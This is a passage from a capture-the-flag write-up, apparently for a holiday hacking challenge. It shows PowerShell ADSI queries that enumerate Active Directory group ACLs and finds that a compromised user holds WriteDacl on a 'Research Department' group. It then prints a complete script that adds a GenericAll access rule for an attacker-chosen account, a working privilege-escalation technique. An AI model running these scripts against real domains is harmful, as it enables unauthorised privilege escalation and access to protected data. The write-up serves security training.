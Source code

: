 In **domain_groups.html** we can see some groups that may be useful to us, like *Domain Admins* and *Research Department*. Let's see what we can do to them. We could use one of the [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets/blob/main/README.md) provided to us by Chris Davis in his [talk](https://www.youtube.com/watch?v=iMh8FTzepU4).  
You could use the first script in the page, changing some values to match with our environment.
```{attention}
You have to run this in powershell! To enter it, just use the command "powershell".
```
```
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```
This list all users/groups who have some permissions regarding that specific object. In this case that is the **Domain Admins** group.  
Unfortunately, there is nothing interesting in here. 
All users we have compromised have not got any special permission in this group.

## The Research Dep.
We can try to query the other group that could be considered interesting, **Research Department**, given the fact that we have to access a research document.  

```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

In the output we get this:

```
ActiveDirectoryRights : WriteDacl
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ELFU\remote_elf
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
```
Seems like the user "**remote_elf**" has the **WriteDacl** permission, which allows us to add/remove permissions for other users for this group. We can now proceed to use the second script provided to us to by Chris Devis.
```{note}
This script adds the **GenericAll** permission to a user of our choice. We should add it to the user generated by us.
```
```Powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "YOUR_USERNAME_HERE"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```